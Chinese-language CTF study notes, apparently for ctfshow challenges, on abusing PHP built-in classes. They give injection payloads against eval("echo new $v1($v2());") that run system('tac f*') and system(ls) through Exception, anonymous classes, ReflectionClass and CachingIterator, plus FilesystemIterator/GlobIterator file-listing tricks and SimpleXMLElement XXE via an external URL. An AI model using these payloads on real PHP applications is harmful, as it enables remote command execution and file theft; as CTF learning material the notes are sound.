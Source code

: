 ^
## **flag在某个类的属性里**
代码执行
```
要读取一个类信息
var_dump(get_class_vars('ctfshow'));

反射获取类信息
echo new ReflectionClass('ctfshow');



get_object_vars($this)是获取本类的属性和属性值，做为数组返回。
```

## **eval和new类结合**
```
eval("echo new $v1($v2());");

让new后面有个正常的类不报错，后拼接操作。payload:
v1=Exception();system('tac f*');//&v2=a



法二 匿名类+魔术方法 
v1=class{ public function __construct(){system('tac fl*');}};&v2=w



或使用echo直接让$v1触发__toString()，此时传递的$v2参数会被输出。
这里需要对v2后面的括号进行解释，如v2=system(ls)，$v2()会把 $v2 返回的值会作为函数Q名去调用，但是调用失败了。

v1=ReflectionClass&v2=phpinfo
v1=ReflectionClass&v2=system('tac f*')
v1=CachingIterator&v2=system(ls)
v1=Exception&v2=system(ls)
```
如果有过滤不能使用()，使用getcwd()方法，无需传参返回当前所在目录。
而FilesystemIterator构造方法根据目录返回第一个文件名。这个文件名一般就是flag文件且可以直接访问
```
v1=FilesystemIterator&v2=getcwd
eval("echo new FilesystemIterator(getcwd());");
```


^
## **存在XXE的类**
PHP的内置类
SimpleXMLElement
对象
```
// 解析 XML 数据
$xmlData = '<root><element>value</element></root>';
$xml = new SimpleXMLElement($xmlData);

// 解析 XML 文件 
URL$xmlUrl = 'http://example.com/example.xml';
$xml = new SimpleXMLElement($xmlUrl, 0, TRUE);
此时外链的xml是存在xxe即可。
```


^
## **搜索文件名的类**
列出当前目录.php结尾有什么文件。
```
new GlobIterator("./*.php",0);
?a=GlobIterator&param=./*.php&param2=0
```